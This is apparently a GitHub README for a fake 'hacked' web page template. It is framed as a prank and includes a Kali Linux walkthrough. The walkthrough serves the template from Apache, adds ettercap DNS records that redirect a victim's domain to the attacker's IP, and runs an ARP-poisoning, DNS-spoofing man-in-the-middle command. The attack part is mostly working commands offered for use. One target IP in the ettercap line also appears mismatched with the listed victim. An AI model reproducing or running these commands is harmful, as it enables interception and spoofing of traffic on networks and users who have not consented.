 ## Hacked page template.


[How it looks](https://tarokinoe.github.io/hacked_page/)

### Kali usage example:
Let's say you want to make a joke with your friend and "hack" his web-site.  
We wil use [Kali linux](https://www.kali.org/).
- 192.168.0.1 - gateway  
- 192.168.0.20 - victim  
- 192.168.0.30 - your ip  
- example.com - victim's site domain name

```
cd /var/www/html/
rm index.html
git clone https://github.com/tarokinoe/hacked_page.git .
service apache2 start
```
/etc/ettercap/etter.dns
```
...
example.com A 192.168.0.30
*.example.com A 192.168.0.30
www.example.com PTR 192.168.0.30
...
```
```
ettercap -T -q -i wlan0 -M arp:remote -P dns_spoof /192.168.0.1// /192.168.0.30//
```
